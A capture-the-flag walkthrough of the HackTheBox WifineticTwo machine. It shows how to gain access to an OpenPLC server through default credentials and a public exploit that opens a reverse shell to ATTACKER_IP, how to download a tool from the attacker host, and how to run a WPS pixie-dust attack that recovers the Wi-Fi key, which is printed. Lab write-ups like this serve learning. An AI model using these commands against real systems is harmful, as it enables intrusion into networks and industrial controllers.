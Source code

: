# WifineticTwo Walkthrough

## Intro
Welcome to the  WifineticTwo challenge Walkthrough from HackTheBox, here is the link to the [room](https://app.hackthebox.com/machines/WifineticTwo)
In this room we are gonna practice with web applications vulnerabilities, exploit them to gain access to the machine and finally escalate privileges to get the root flag.

To interact with the machine connect via OpenVPN using the "lab" config profile.

Whenever you feel ready press "Join the Machine"

<br/>
<br/>

## The Challenge
Let's begin with a port scan with *nmap*
```bash
nmap -sV MACHINE_IP
```

Here is the scan report:
```
22/tcp   open  ssh        syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http-proxy syn-ack ttl 63 Werkzeug/1.0.1 Python/2.7.18
```

We can now navigate to it, in your browser enter:
```
http://MACHINE-IP:8080
```

There is a login page of OpenPLC Webserver, with a quick search i found that the default credentials for login are openplc:openplc, i submitted them and got access to the dashboard.

Exploring the sections the "programs" one looks really interesting as it let's us upload programs and run them, maybe we can upload and trigger a reverse shell to connect to our machine.
In order to achieve that objective we first need to understand that we are in the field of PLC which are Programmable Logic Controllers, there are multiple programming languages we can use but looking at the program that was already updated we can see the `.st` extension which is used for Structured Text files.

From what i have found ST was based on and resembles traditional programming languages like Python, Java or C++.

Looks like that if we can modify the hardware code to make it interact with the custom file we upload we should be able to get our shell, but honestly is long and i am still learning C, so i searched if there were any known vulnerabilities and i found CVE-2021–49803 and on [ExploitDB](https://www.exploit-db.com/exploits/49803) there is also a python script.

Looking at it we have to make a little change, in line 34 it tries to compile a file called 681871.st, which i did not find, so i changed that name with the one of the file already located in the programs section "blank_program.st".

Set up a listener on your machine:
```bash
nc -lvnp 1234
```

Now we are ready to run it, modify the command with the right values:
```bash
python3 exploit.py -u http://MACHINE_IP:8080 -l openplc -p openplc -i ATTACKER_IP -r 1234"
```

Wait a couple of seconds and we have a shell as root user on this machine.
We can grab the first flag:
```bash
cat /root/user.txt
```
--> REDACTED

Running `ifconfig` i have noticed that our controller is connected to a WiFi network, i suppose that the Admin Controller will be in the same network and we have to reach it somehow.

Let's get more info about wlan0:
```bash
iw dev wlan0 scan
```

The interesting portion of the output is this one, telling us useful info about the "Robust Secure Network":
```
 RSN:  * Version: 1
   * Group cipher: CCMP
   * Pairwise ciphers: CCMP
   * Authentication suites: PSK
   * Capabilities: 1-PTKSA-RC 1-GTKSA-RC (0x0000)

 WPS:  * Version: 1.0
   * Wi-Fi Protected Setup State: 2 (Configured)
   * Response Type: 3 (AP)
```

It is running version 1, using CCMP (Cipher Block Chaining Message) and PSK (Pre-Shared Key) which in terms of security is not really the best, it is in fact old and surpassed because of the weak protection that provides in today's environment.

We can also notice that WPS, which is used to simplify the connection to the network is version 1 only which expose it to some types of attacks

Checking for known vulnerabilities an attack types and excluding the ones that do not really fit our situation i came up to one called *pixie dust attack*.
It works by sending a series of deauth packets to the router and then trying all possible combinations of the 8-digit WPS PIN until the correct one is found.

Now we need a tool to apply this attack to our situation, the first thing is to identify the network we want to attack

Get the *Oneshot* tool:
```bash
git clone https://github.com/kimocoder/OneShot.git
```

Now we need to transfer it into the target machine, `cd` into the directory and set up a simple python server:
```bash
python -m http.server
```

On the target 
```bash
cd /tmp
```
```bash
curl http://ATTACKER_IP:8000/oneshot.py -O oneshot.py
```

Let's discover the MAC address of the Access Point:
```bash
python3 oneshot.py -i wlan0
```
and click 1 when the network is found or use this command:
```bash
python3 oneshot.py -i wlan0 -b 02:00:00:00:01:00 -K
```

Very quickly we get the PIN and the PSK
```
[+] WPS PIN: '12345670'
[+] WPA PSK:  REDACTED
[+] AP SSID:  REDACTED
```

With this credentials we can connect to the network:
```bash
wpa_passphrase <SSID> <PSK> > wpa.conf
wpa_supplicant -B -i <interface> -c wpa.conf
```
```bash
wpa_cli wps_reg <BSSID> <WPS_PIN>
```

which turns into:
```bash
wpa_passphrase plcrouter NoWWEDoKnowWhaTisReal123! > wpa.conf
```
```bash
wpa_supplicant -B -i wlan0 -c wpa.conf
```

Now we can assign an IP address:
```bash
ifconfig wlan0 192.168.1.10 netmask 255.255.255.0
```


Now we can connect to the router via ssh:
```bash
ssh root@192.168.1.1
```

Let's get the root's flag:
```bash
cat /root/root.txt
```
--> REDACTED

<br>

Congratulations, you have completed this WiFi hacking challenge, i had a lot of fun doing it hope you did as well. <br>
If you wanna see more write ups you can check the WriteUps Directory in this GitHub repo. <br>
Catch you in the next CTF 😃 <br>
